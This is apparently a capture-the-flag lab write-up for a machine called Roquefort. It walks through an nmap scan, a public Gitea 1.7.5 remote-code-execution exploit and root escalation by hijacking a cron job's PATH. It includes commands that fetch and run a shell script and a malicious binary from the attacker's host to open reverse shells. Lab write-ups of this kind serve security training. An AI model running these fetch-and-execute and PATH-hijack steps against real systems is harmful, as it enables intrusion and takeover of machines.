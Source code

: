 # Roquefort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.67 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:40 +08
Nmap scan report for 192.168.157.67
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
2222/tcp open   EtherNetIP-1
3000/tcp open   ppp
```

FTP does not allow for anonymous logins.

### Web Enum --> Gitea RCE

Only port 3000 has a webpage:

<figure><img src="../../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

In the bottom left, we can see the version, which is vulnerable to RCE:

```
$ searchsploit gitea 1.7.5
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Gitea 1.7.5 - Remote Code Execution                        | multiple/webapps/49383.py
----------------------------------------------------------- ---------------------------------
```

We can create any account, and then use these settings:

```
USERNAME = "test123"
PASSWORD = "test123"
HOST_ADDR = '192.168.45.196'
HOST_PORT = 3000
URL = 'http://192.168.157.67:3000'
CMD = 'wget http://192.168.45.196:21/shell.sh && bash shell.sh'
```

We would then get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob Path --> Root

`linpeas.sh` picked up that we can write to the Systemd PATH:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

This means we just need to find some process from `root` that doesn't use the full PATH. I used `pspy64` to find such a process.

```
2023/07/15 22:55:01 CMD: UID=0    PID=13493  | run-parts --report /etc/cron.hourly 
```

`run-parts` should work.&#x20;

```
chloe@roquefort:/tmp$ which run-parts
/bin/run-parts
```

Since the `/bin` directory is the last in PATH, we can place our malicious binary within `/usr/local/bin` to be executed first.&#x20;

```bash
cd /usr/local/bin
wget 192.168.45.196:21/run-parts
chmod 777 run-parts
```

Then, start a listener port and wait for `root` to execute the binary:

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

